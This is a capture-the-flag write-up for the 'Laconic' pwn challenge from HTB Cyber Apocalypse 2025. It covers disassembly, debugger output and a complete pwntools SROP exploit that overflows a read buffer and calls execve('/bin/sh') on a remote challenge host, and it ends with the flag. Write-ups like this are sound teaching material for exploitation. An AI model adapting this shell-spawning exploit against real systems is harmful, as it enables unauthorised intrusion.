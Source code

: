 ```yaml
---
title: Laconic
type: writeup
date: 2025-03-29T18:36:19+02:00
description: Writeup for Laconic [HTB Cyber Apocalypse CTF 2025]
author: sunbather
tags:
- pwn
- srop
draft: false
---
```

___

## Challenge Description

Sir Alaric's struggles have plunged him into a deep and overwhelming sadness, leaving him unwilling to speak to anyone. Can you find a way to lift his spirits and bring back his courage?

## Intuition

Super small binary, written directly in assembly. Here is the disassembly:

```
$ objdump -d laconic -M intel

laconic:     file format elf64-x86-64


Disassembly of section .shellcode:

0000000000043000 <__start>:
   43000:	48 c7 c7 00 00 00 00 	mov    rdi,0x0
   43007:	48 89 e6             	mov    rsi,rsp
   4300a:	48 83 ee 08          	sub    rsi,0x8
   4300e:	48 c7 c2 06 01 00 00 	mov    rdx,0x106
   43015:	0f 05                	syscall 
   43017:	c3                   	ret    
   43018:	58                   	pop    rax
   43019:	c3                   	ret    
```

The `syscall` instruction is executing a read (`rax = 0x0`, you can see it dynamically). Size of read is `0x106` and target is `rsp` according to `mov rsi,rsp`.

So obviously this is a buffer overflow as I can immediately write the return addresses. Size is huge `0x106` so we can perform SROP. Let's debug to find everything:

```
$ gdb laconic -q
pwndbg> start
[...]
pwndbg> search "/bin/sh"
Searching for value: '/bin/sh'
laconic         0x43238 0x68732f6e69622f /* '/bin/sh' */
```

Additionally we have the addresses for a few gadgetsa in the initial `objdump`:

- `pop rax` -- `0x43018`
- `syscall` -- `0x43015`

## Solution

Script is quite simple, just classic SROP.

```py
#!/usr/bin/env python3

from pwn import *

context.clear()
context.arch = "amd64"

#target = process("./laconic")
target = remote("83.136.251.145", 30750)

sh_addr = 0x43238
syscall_gadget = 0x43015
pop_rax = 0x43018

frame = SigreturnFrame()
frame.rax = 59 # syscall code for execve
frame.rdi = sh_addr
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0
frame.rip = syscall_gadget

payload = b"a" * 8 + p64(pop_rax) + p64(15) + p64(syscall_gadget) + bytes(frame)

target.send(payload)
target.interactive()
```

### Flag

`HTB{s1l3nt_r0p_SOME_UNIQUE_ID}`
